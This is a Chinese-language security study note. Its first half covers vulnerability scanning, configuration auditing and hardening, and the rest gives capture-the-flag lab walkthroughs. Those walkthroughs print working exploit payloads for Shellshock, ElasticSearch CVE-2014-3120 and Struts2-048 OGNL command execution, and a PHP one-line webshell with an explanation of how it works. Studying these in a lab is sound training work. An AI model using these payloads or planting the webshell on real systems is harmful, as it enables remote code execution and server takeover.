 ## 安全服务问题

##### 扫描器工作原理
扫描器的工作原理是基于CVE漏洞库的半连接的扫描方式，首先探测目标系统的活动主机，对活动主机进行端口扫描，确定系统开放的端口，同时根据协议指纹技术识别出主机的操作系统类型。然后扫描器对开放的端口进行网络服务类型的识别，确定其提供的网络服务。漏洞扫描器根据目标系统的的操作系统平台和提供的网络服务，调用漏洞资料库中已知的各种漏洞进行逐一检测，通过对探测响应数据包的分析判断是否存在已知安全漏洞。目标可以是工作站、服务器、交换机、数据库应用等各种对象。扫描结果可以给用户提供周密可靠的安全性分析报告，是提高网络安全整体水平的重要依据。

##### 服务器ip禁ping怎么办
遇到服务器禁ping的情况，应先问知kh的服务器是否为开启的状态，若开启了禁ping策略，扫描器需配置高级选项中，勾掉“禁止存活性测试”，但会降低扫描的速率。

#### 配置核查，都包括哪些东西
配置核查包括对操作系统，数据库，中间件，网络设备，安全设备，其他等进行配置核查，配置核查属于机器安全配置的基线，例如：linux配置核查中包括身份鉴别、访问控制、入侵防范、安全审计等

#### 配置核查的方式
配置核查方式，有在线和离线，1：其中离线检查需下载对应的离线检查工具，按照其操作方法进行脚本执行，将执行结果导入扫描器即可生成报告。2：在线方式，直接勾选配置检查模块进行在线模式检查，需注意常见的windows的在线检查须通过rdp协议进行登录账号扫描，需在windows服务器上装插件，也可以通过smb协议进行登录扫描，但要提前确认smb账号密码。Linux、路由器、交换机、华为防火墙、配置核查直接使用root等管理员账户账号密码检查即可

#### 漏洞和配置核查的安全加固怎么做
漏洞加固最好的处理方式进行修补补丁、系统升级、临时修复通过更改配置、更改路径、删除文件等方式处理。配置核查加固一般根据扫描报告中配置检查项标准值进行配置更改，对于未检查出实际值的配置项需与客户确认问题是否存在或自行核查以确认问题

#### 扫描只提供了一个IP地址，可以怎么配置扫描器网络
1.配置扫描器主机地址，本机地址和主机地址同段，将客户提供ip地址配置为业务口进行扫描工作；属于桥接模式
2.在nat模式下，可以在扫描器后台配置dhcp，自动获取扫描ip，然后通过该ip登录后台，在网络配置中添加客户提供ip进行扫描
注：扫描前要ping一下网关确保网络正常

<br/> <br/> <br/>

## 靶场漏洞

##### bash 命令执行 （CVE-2014-6271）
目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。 影响版本：GNU Bash <= 4.3
利用过程
有两个页面http://ip:port/victim.cgi和http://ip:port/safe.cgi
访问 http://ip:port/victim.cgi，通过Burp截包修改 HTTP 请求头中User-Agent字段：
User-Agent: () { :;};echo `/bin/ls ls /tmp`" #列出tmp目录下所有文件
/bin/ls 事调用bin目录下ls事件  获取flag

ElasticSearch（CVE-2014-3120）命令执行漏洞复现
访问靶场环境，启动后可在浏览器页面成功访问
漏洞复现
用burp抓数据包
利用该漏洞之前，es至少需要存在一条数据，通过以下请求包创建数据：

1、利用POST方式提交数据
2、文件名字任意
3、浏览器的原生 form 表单，如果不设置 enctype 属性，那么其中Content-Type字段最终会以 application/x-www-form-urlencoded 方式提交数据。
而对于"application/x-www-form-urlencoded"，其参数组织形式是"键值对"。

三、利用命令执行漏洞，将一段java代码放进去
java代码：{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {}
        }      }    },
    "script_fields": {
        "command": {
            "script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }    }    }
        
其中：exec(\"ls /tmp\") 中是执行命令内容
struts2-048 远程代码执行
访问漏洞存在的路径 /integration/saveGangster.action
构建命令执行的pyload,执行命令为id
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls /tmp').getInputStream())).(#q)}    

其中：exec('ls /tmp') 中是执行命令内容,可查看tmp下存在的flag

<br/> <br/> <br/>

## 线上靶场

通关线上靶场大多数S2和weblogic发序列化漏洞，可通过java反序列化漏洞利用工具进行测试，
瓶颈：之前不了解原因是因为，对文件存在的目录不了解，使用 pwd 命令 进行查看路径，发现都不是在根目录，通常靶场flag存在根目录下，tmp文件夹中，通关cd / 命令可以到达根目录下，之前使用命令执行时，用的都是相对路径，没有使用绝对路径进行执行，所以导致命令执行失败
问题：命令执行是把 "cd / | ls" 和 "ls | cd /"先后执行顺序弄反，导致错误的命令执行

<br/> <br/> <br/>

## 一句话木马原理

一句话木马 webshell 到web服务器目录 接着权获取系统权限

基本原理利用文件上传漏洞上传webshell

 <?php @eval($_POST['pass']);?> 

--- <?php ?> --- php文件要求格式

--- @ 表示后面即使执行错误，也不报错

--- eval() 函数表示把括号内的全当代码执行

--- $_POST['pass`']`表示从页面中获得pass这个参数值。

​	php 超全局变量：`$_GET`、`$_POST`就是其中之一

​    `		$_POST['pass']`; 的意思就是pass这个变量，用post的方法接收。

​					就是来收集 请求方法为post 的名字为pass表单里面的值

​			 ---  $_POST数组获取使用POST方式提交的表单数据

​                form标签的指定该属性："method="post"。

​					就是获取表单名为pass中的表单内容

  	 比如 eval( "echo 'a' ") == echo 'a' 

​		 <?php @eval($_POST['pass']);?>   

​			首先用post请求接受变量pass  若pass = echo 'a'  

​			代码就变成了 <?php eval("echo 'a';"); ?>

所以我们可以简单的想 中国菜刀发的这么一个包 包的代码是打开指定目录的句柄，然后进行循环扫描，并附带上权限、时间、大小、日期 这个包我这里用package来代替 所以在操作的时候其实就是 key = package 然后通过eval函数执行package的php代码 从而最终达成目的
中国菜刀 发一个包，包的代码是打开目录的
